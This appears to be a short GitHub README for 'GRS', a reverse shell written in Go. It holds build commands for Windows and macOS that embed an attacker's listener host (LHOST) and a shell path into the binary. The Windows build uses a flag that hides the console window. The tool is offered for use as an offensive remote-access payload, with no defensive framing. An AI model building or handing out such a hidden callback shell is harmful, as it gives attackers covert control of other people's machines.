 # GRS
### A Golang reverse shell


#### To build:

Windows:

$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**' -H windowsgui" "windows/GRS.go"



Darwin:

$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"
